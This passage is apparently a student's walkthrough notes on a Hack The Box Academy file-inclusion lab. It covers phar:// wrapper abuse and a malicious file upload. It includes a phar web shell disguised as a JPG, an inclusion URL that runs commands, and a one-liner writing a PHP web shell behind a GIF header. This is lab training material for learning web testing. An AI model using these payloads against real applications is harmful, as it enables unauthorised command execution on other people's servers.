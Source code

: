 ```shell-session
smoothment@htb[/htb]$ php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg
```

Now, we should have a phar file called `shell.jpg`. Once we upload it to the web application, we can simply call it with `phar://` and provide its URL path, and then specify the phar sub-file with `/shell.txt` (URL encoded) to get the output of the command we specify with (`&cmd=id`), as follows:

```
http://<SERVER_IP>:<PORT>/index.php?language=phar://./profile_images/shell.jpg%2Fshell.txt&cmd=id
```

![](https://academy.hackthebox.com/storage/modules/23/rfi_localhost.jpg)

As we can see, the `id` command was successfully executed. Both the `zip` and `phar` wrapper methods should be considered as alternative methods in case the first method did not work, as the first method we discussed is the most reliable among the three.

**Note:** There is another (obsolete) LFI/uploads attack worth noting, which occurs if file uploads is enabled in the PHP configurations and the `phpinfo()` page is somehow exposed to us. However, this attack is not very common, as it has very specific requirements for it to work (LFI + uploads enabled + old PHP + exposed phpinfo()). If you are interested in knowing more about it, you can refer to [This Link](https://book.hacktricks.xyz/pentesting-web/file-inclusion/lfi2rce-via-phpinfo).

## Question

***

![](gitbook/cybersecurity/images/Pasted%20image%2020250218152650.png)

Let's check the site:

![](gitbook/cybersecurity/images/Pasted%20image%2020250218152708.png)

We got `Profile Settings`:

![](gitbook/cybersecurity/images/Pasted%20image%2020250218152723.png)

In here, we can upload images, if we try uploading another file, we get this:

![](gitbook/cybersecurity/images/Pasted%20image%2020250218152746.png)

There are many ways to bypass this restriction but since we are following the guideline of the module, let's go with the malicious file upload, in this case, I will upload a malicious gif file:

```
echo 'GIF8<?php system($_GET["cmd"]); ?>' > webshell.gif
```

Now, let's upload it:

![](gitbook/cybersecurity/images/Pasted%20image%2020250218153201.png)

If we check the source code, we can see the path where images are uploaded:

![](gitbook/cybersecurity/images/Pasted%20image%2020250218153225.png)
